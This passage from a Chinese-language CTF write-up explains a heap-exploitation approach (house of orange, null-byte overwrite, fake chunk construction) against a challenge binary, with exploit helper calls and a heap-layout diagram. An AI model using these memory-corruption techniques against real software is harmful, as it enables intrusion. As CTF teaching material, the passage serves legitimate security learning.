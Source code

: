 ```
前： 需要伪造P-&gt;prev_size并且P-&gt;PREV_INUSE=0，但是这里P-&gt;size都小于0x100，用NULL BYTE覆盖后size就为0了，所以不行
后： 需要伪造P-&gt;size，失败原因同上
```

而最关键的是，这里不存在修改某**chunk**的功能，同时由于开启了**PIE**也无法泄露**heap_ptr**的地址，所以**unlink**应该是不行的。 * houseoforange 由于这里的**ghost**大小正好是0x60，那么如果我们将它置入**unsorted bin**，并且之后可以修改**ghost-&gt;bk**，那么就能够实现攻击。 首先申请如下的堆

```
newheap(0)
addghost(1, '1')
newheap(1)
newheap(2)
```

接着将**ghost**加入**unsorted bin**同时和释放的**heap_0**合并，再把**heap2_2**申请出来用来隔断**top**，最后释放**heap_1**将**heap_2**以上合并成一个整块

```
delghost()
delheap(0)
delheap(2)
newheap(2)
delheap(1)
```

接着释放**heap_0**，再重新申请用来覆盖**unsorted bin**的**size**，使之从0x110-&gt;0x100

```
newheap("0"*0xa0 + p64(0xb0))
```

到这一步骤的流程图如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.mutepig.club/usr/uploads/2017/11/21343065.png)

接着再申请**heap_1**，使得**unsorted bin**的**PREV_INUSE**变成1，这样才能释放**heap_0**

```
newheap(1)
delheap(1)
delheap(0)
```

最后申请一个**ghost**，再申请一个**heap_0**，这时**heap_2**的上一个**chunk**的指向就被**heap_0**包含了，从而我们可以在**heap_0**里面构造一个**fake_chunk**

```
+=======+
 ghost (0x60)
+=======+
 heap_0 (0xb0)
+=======+
unsorted bin (0xa0)
+=======+
 无主之地 (0x10)
+=======+
 heap_2 (prev_size=0x110 包含于heap_0 size=0x60表示上一块没使用)
+=======+
```
